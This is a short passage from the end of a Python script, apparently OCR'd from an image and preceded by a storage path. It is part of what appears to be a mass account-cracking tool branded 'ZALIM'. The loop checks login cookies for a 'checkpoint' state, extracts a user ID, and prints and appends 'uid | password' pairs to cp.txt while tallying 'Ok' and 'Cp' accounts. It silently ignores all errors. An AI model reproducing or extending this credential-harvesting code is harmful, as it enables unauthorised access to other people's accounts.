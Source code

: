 				break

			elif 'checkpoint' in log_cookies:

				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])

				uid = coki[141:152]

				print('\r\033[1;31m[ZALIM-CP] '+uid+' | '+ps)

				open('cp.txt', 'a').write(uid+' | '+ps+'\n')

				cps.append(uid)

				break

			else:

				continue

		loop+=1

		sys.stdout.write(f"\r \x1b[1;32m[ Z A L I M ]\x1b[1;32m [{loop}|{tl}] \x1b[1;32m[Ok][{len(oks)}] [Cp][{len(cps)}]  ")

		sys.stdout.flush()

	except:

		pass

menu()
